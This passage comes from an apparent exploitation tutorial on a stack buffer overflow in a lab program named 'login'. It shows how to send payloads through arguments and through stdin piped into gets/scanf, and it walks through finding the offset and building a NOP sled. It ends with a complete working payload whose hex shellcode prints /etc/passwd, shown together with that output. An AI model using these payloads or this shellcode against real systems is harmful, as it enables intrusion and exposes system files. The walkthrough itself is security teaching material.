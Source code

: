 Here in this case, we used `$(` `)` to execute whatever is within the parentheses and send it as argument. We could also use `python` instead of `echo`:

```text
./application $(python -c "print 28*'A' + '\x52\xef\xff\xbf' + 100 * '\x90' + '\x31...'")
```

#### Using scanf/gets

When using `scanf`/`gets`, it's a little bit different since we first need to execute the application, wait for the application `scanf` or `gets` to be executed and then send the user input. Fortunately, it isn't as complicate as it sounds, we simply need to use [pipe](https://ryanstutorials.net/linuxtutorial/piping.php):

```text
echo -ne "AAA...A\x52\xef\xff\xbf\x90\x90..." | ./application
```

Here, we can also use python:

```text
python -c "print 28*'A' + '\x52\xef\xff\xbf' + 20 * '\x90' + '\x31...'" | ./application
```

Now, let say you have an application where it asks with a `scanf` for your name, then you surname and the buffer overflow is triggered when using a long surname. You will first need to send a user input for the name. You can do that be sending a string where the name and the last name is separated by a _newline_ character \("`\n`"\). For instance:

```text
echo -ne "Hello\nAAAAAAAAAAAA..." | ./application
```

### Wrap up

So, here is a summary of what we've done to exploit the application `login`:

1. We identified the vulnerability by simply looking at the source code and finding the function `gets()`.
2. We used the script to generate a long string with a specific pattern
3. We used run `login` in `gdb` and send the generated string
4. We look at the value of `eip` once the application crashed and we convert it in ASCII
5. We send the ASCII value in the second script to calculate the offset
6. We build a skeleton payload: `offset * "A" + "BBBB" + 100 * NOP + shellcode`
7. We once again run `login` in `gdb` and send the skeleton
8. We look at `esp` once the application crashed to get the shellcode address and we find an address in the middle of the nop sled
9. We build our payload: `offset * "A" + nop_sled_address + 100 * NOP + shellcode`
10. We execute the application `login` with the payload

Once run, the shellcode is executed and we have the file `/etc/passwd` printed in our terminal:

```text
$ python -c "print 28*'A' + '\x52\xef\xff\xbf' + 100 * '\x90' + '\x31\xc0\x99\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe1\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80'" | ./login
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
```
